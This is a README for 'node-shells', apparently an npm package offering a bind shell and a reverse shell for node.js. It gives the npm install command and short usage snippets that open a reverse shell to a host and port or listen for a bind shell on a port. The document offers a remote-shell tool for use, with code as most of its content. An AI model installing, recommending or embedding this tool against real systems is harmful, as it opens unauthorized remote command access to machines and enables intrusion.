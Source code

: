 # node-shells

Currently a very simple bind and reverse shell that can be used with node.js. Tested on node 0.10.15

## Install
```
npm install node-shells
```

## Usage: Reverse Shell
```
var shells = require('node-shells');

shells.reverseShell('127.0.0.1', '1234'); // host, port
```


## Usage: Bind Shell
```
var shells = require('node-shells');
shells.bindShell('1234'); // port
```
